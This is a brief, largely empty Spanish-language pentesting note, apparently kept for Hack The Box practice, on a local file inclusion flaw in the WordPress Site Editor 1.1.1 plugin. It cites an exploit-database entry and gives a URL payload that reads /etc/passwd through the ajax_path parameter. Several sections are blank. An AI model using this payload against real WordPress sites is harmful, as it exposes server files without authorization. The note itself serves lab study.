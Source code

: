 
## DESCRIPTION



#### Mas información
* 


## EXPLOITATION

```
WordPress Plugin Site Editor 1.1.1 - Local File Inclusion                 | php/webapps/44340.txt
```

```
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 